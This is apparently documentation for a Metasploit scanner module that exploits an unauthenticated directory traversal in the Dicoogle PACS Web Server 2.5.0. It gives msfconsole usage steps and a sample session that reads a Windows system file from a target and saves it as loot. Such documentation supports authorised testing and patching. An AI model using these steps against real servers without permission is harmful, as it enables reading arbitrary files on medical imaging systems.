 ## Description

This module exploits an unauthenticated directory traversal vulnerability
in the Dicoogle PACS Web Server v2.5.0 and possibly earlier, allowing an
attacker to read arbitrary files with the web server privileges.
While the application is java based, the directory traversal was only
successfully tested against Windows targets.


## Verification Steps

  1. Start `msfconsole`
  2. `use auxiliary/scanner/http/dicoogle_traversal`
  3. `set RHOSTS [IP]`
  4. `run`

## Scenarios

### Tested on Windows 2012 with Dicoogle 2.5.0 on Java 8 update 151

  ```
  msf > use auxiliary/scanner/http/dicoogle_traversal 
  msf auxiliary(scanner/http/dicoogle_traversal) > set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  msf auxiliary(scanner/http/dicoogle_traversal) > set verbose true
  verbose => true
  msf auxiliary(scanner/http/dicoogle_traversal) > run
  
  [+] 192.168.2.164:8080 - ; for 16-bit app support
  [fonts]
  [extensions]
  [mci extensions]
  [files]
  [Mail]
  MAPI=1
  
  [+] File saved in: /root/.msf4/loot/20180803091123_default_192.168.2.164_dicoogle.travers_347491.txt
  ```
